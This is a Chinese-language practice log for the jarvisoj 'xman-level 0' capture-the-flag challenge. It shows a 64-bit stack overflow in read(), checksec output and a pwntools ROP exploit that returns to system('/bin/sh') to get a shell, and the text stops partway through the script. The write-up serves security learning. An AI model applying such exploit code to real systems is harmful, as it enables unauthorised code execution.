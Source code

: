 # jarvisoj 练习记录

## PWN

### xman-level 0
一个64位下的栈溢出：
``` c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL); //溢出点
}
```
开启了NX保护
``` bash
trump@ubuntu:~/Desktop/xman$ checksec level0
	[*] '/home/trump/Desktop/xman/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
trump@ubuntu:~/Desktop/xman$ 

```
考虑使用ROP进行exp：
```
[---buf---][--ebp--][--gadget--][--binsh--][--system--]
```
exp如下：
``` python
#!/usr/bin/python

from pwn import *

def exploit():
    global io
    system_addr = 0x0000000000400596
    
    payload   = 'A' * 0x80
    payload  += 'A' * 0x8        # ebp 
    payload  += p64(system_addr)  # system_addr
    
    sleep(0.5)
    io.sendline(payload)
    
    # get shell
    io.interactive()

def exploit2():
    global io
    system_addr = 0x0000000000400460
    binsh_addr  = 0x0000000000400684
    gadget_addr = 0x0000000000400663
    
    payload   = 'A' * 0x80
    payload  += 'A' * 0x8         # ebp 
    payload  += p64(gadget_addr)  # pop rdi;ret
    payload  += p64(binsh_addr)   # system_addr
    payload  += p64(system_addr)   # system_addr

```